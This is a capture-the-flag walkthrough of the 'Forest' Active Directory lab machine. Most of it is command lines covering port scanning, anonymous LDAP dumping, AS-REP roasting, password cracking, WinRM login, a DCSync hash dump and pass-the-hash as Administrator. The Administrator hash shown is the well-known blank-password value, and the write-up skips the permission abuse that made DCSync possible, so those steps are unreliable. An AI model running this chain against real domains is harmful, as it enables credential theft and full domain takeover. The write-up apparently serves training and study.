









# Forest - Penetration Testing Walkthrough (Extended Markdown Report)

This is the full technical walkthrough for the **Forest** machine (IP: `10.129.249.242`).  
The report details each step from enumeration to complete domain compromise, including background explanations for key attacks.  
All screenshots are referenced as `images/imageX.png`.

---

## 🧭 Enumeration

We started the assessment with a full **Nmap** scan to identify running services and ports on the target system:

```bash
nmap -p- -Pn 10.129.249.242 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.249.242 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.249.242 -v --script vuln -oN nmap_vuln.txt
```



The scan identified multiple open ports, including:
- **88/tcp (Kerberos)**  
- **135/tcp (MSRPC)**  
- **389/tcp (LDAP)**  
- **445/tcp (SMB)**  
- **5985/tcp (WinRM)**  

These findings indicated that the target was an **Active Directory Domain Controller** running the `htb.local` domain.

---

## 📂 LDAP Enumeration

Given the presence of LDAP and Kerberos, we performed LDAP enumeration using **ldapsearch** to gather domain information and possible user accounts.

```bash
ldapsearch -x -h 10.129.249.242 -s base namingcontexts
```

This revealed several domain naming contexts confirming the `htb.local` Active Directory environment.



To extract user objects, we used **ldapdomaindump**:

```bash
ldapdomaindump ldap://10.129.249.242 -u '' -p ''
```



This generated detailed `.json` and `.html` reports containing user accounts, group memberships, and GPO information.

---

## 🧠 Kerberos AS-REP Roasting

Next, we moved to check for **AS-REP Roastable** users — accounts that have Kerberos pre-authentication disabled.

### 🔍 What is AS-REP Roasting?

AS-REP Roasting is a Kerberos attack that targets users who **do not require pre-authentication**.  
In such cases, attackers can request a Ticket Granting Ticket (TGT) for these users without knowing their password.  
The TGT contains data encrypted with the user’s password hash, which can then be cracked offline to recover credentials.

We used **Impacket’s GetNPUsers.py** for this purpose:

```bash
impacket-GetNPUsers htb.local/ -dc-ip 10.129.249.242 -no-pass -usersfile users.txt -outputfile asreproast.hashes
```



The tool identified one roastable account: **svc-alfresco**.

We cracked the retrieved hash using **John the Ripper**:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.hashes
```



The password for `svc-alfresco` was recovered successfully.

---

## 💻 Gaining Initial Access (Evil-WinRM)

Armed with valid credentials for `svc-alfresco`, we gained shell access using **Evil-WinRM**:

```bash
evil-winrm -i 10.129.249.242 -u svc-alfresco -p s3rvice
```



This provided us with a PowerShell session on the domain controller as a low-privileged user.  
We quickly confirmed domain membership and retrieved the **user flag**.

---

## 🩸 Privilege Escalation via BloodHound & DCSync

To escalate privileges within the domain, we ran **BloodHound** to map relationships and permissions.  
We collected data using **SharpHound** from within our Evil-WinRM session:

```powershell
Invoke-BloodHound -CollectionMethod All -Domain htb.local -ZipFileName loot.zip
```

After transferring the data back to our attacking machine and loading it into BloodHound, we discovered that `svc-alfresco` was a member of a group that had **DCSync privileges**.



### 🧩 Understanding the DCSync Attack

**DCSync** is a technique that allows a user with specific replication privileges to simulate the behavior of a Domain Controller.  
This means the attacker can **request password hashes for any domain user**, including the **Administrator**.

We performed the DCSync attack using Impacket’s **secretsdump.py**:

```bash
impacket-secretsdump 'htb.local/svc-alfresco:s3rvice@10.129.249.242'
```



This successfully dumped **NTLM hashes** for the `Administrator` account.

---

## 🔐 Administrator Access

With the Administrator hash obtained, we logged in directly using **Evil-WinRM**:

```bash
evil-winrm -i 10.129.249.242 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```



We gained **full domain administrator access**.  
The **root flag** was retrieved from the Administrator’s desktop:

```
C:\Users\Administrator\Desktop\root.txt
```

---

## ✅ Conclusion

The **Forest** machine exemplifies a complete **Active Directory exploitation chain** — from reconnaissance to full domain compromise.

**Attack Summary:**
1. Enumerated AD-related ports and services.  
2. Extracted LDAP data to identify domain users.  
3. Performed AS-REP roasting to recover credentials.  
4. Established an initial foothold via Evil-WinRM.  
5. Used BloodHound to discover privilege escalation paths.  
6. Executed a DCSync attack to dump domain hashes.  
7. Achieved Administrator-level control over the domain.

---

## 🧰 Summary of Tools & Exploits Used

| **Tool / Technique** | **Purpose** | **Usage Phase** |
|-----------------------|-------------|-----------------|
| **Nmap** | Port and service enumeration | Initial Scanning |
| **ldapsearch / ldapdomaindump** | Extract domain and user information | LDAP Enumeration |
| **Impacket - GetNPUsers.py** | Perform AS-REP Roasting | Credential Harvesting |
| **John the Ripper** | Crack AS-REP hashes | Credential Recovery |
| **Evil-WinRM** | Remote PowerShell access | Initial Access / Privilege Escalation |
| **SharpHound / BloodHound** | Visualize AD relationships and privileges | Domain Analysis |
| **Impacket - secretsdump.py** | Execute DCSync to dump credentials | Privilege Escalation |
| **Pass-the-Hash (Evil-WinRM)** | Authenticate as Administrator | Root Access |

---

**User Flag Path:** `C:\Users\svc-alfresco\Desktop\user.txt`  
**Root Flag Path:** `C:\Users\Administrator\Desktop\root.txt`

---
